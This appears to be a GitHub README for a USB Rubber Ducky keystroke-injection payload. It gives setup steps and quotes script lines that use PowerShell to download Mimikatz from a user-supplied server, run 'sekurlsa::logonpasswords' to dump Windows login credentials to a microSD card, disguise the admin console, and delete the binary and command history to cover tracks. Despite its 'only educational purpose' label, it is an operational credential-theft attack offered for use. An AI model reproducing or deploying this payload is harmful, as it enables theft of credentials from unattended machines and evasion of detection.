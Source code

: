 ***only educational purpose***

# Mimikatz payload
This Mimikatz payload is an update of <a href="https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---mimikatz-payload">redmeatuk's payload</a>.

This script download <a href='https://github.com/ParrotSec/mimikatz'>Mimikatz.exe</a> then execute it, and save all the results in a .txt file on the microSD card.

## Setup the Rubber Ducky : 
1. First, you need to flash the Rubber Ducky with twin duck firmware. <a href='https://youtu.be/z5UUTUmGQlY?t=935'> Here is the hak5 video where Darren shows how to do it.</a>
2. Then you have to adapt the script for your needs, for example, you have to put your own server name with mimikatz.exe in it and you have to change MicroSD letter (E:, G:, etc..).    
   ```
   21.STRING powershell (new-object System.Net.WebClient).DownloadFile('http://<your servername>/mimikatz.exe',[...])
                                                                                     ^
   26.STRING %TEMP%\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> G:\mimikatz_output.txt
                                                                                         ^
   ```
3. And, for finish, you have to encode the script and put it in your MicroSD card

## How the script work, in details

In a ***first*** time, the script **waits** 3 sec before doing things to let the computer **recognize** the Rubber Ducky as a keyboard.

In a ***second*** time, the script **launch** a cmd with admin privileges and **change** the theme and the size of the cmd to appear like a more _friendly GUI_ application.

In a ***third*** time, the script **Download and execute** mimizatz and **save the results** in a text file named mimikatz_output.txt

And in a ***final*** time, the script **covers our tracks** by deleting mimizatz.exe and clearing the command history

DATA


you can ask me if you need help or something about.
Good Day !

